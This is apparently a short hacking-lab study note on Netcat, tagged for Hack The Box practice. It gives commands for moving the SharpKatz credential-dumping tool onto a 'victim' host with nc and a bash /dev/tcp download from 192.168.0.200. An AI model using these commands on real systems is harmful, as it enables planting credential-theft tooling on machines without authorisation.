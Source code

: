 ```yaml
---
title:  "Netcat"
tags:
  - cs/hacking
  - cs/hacking/htb
programming-languages:
created: 2022-07-11
---
```

Networking utility for reading from and writing to network connections using TCP or UDP.

## Listening
```bash
victim@target:~$ nc -l -p 8080 > SharpKatz.exe
```

```bash
victim@target:~$ cat < /dev/tcp/192.168.0.200/8080 > SharpKatz.exe
```

## Sending
```bash
me@hanato:~$ nc -q 0 192.168.0.200 8080 < SharpKatz.exe
```
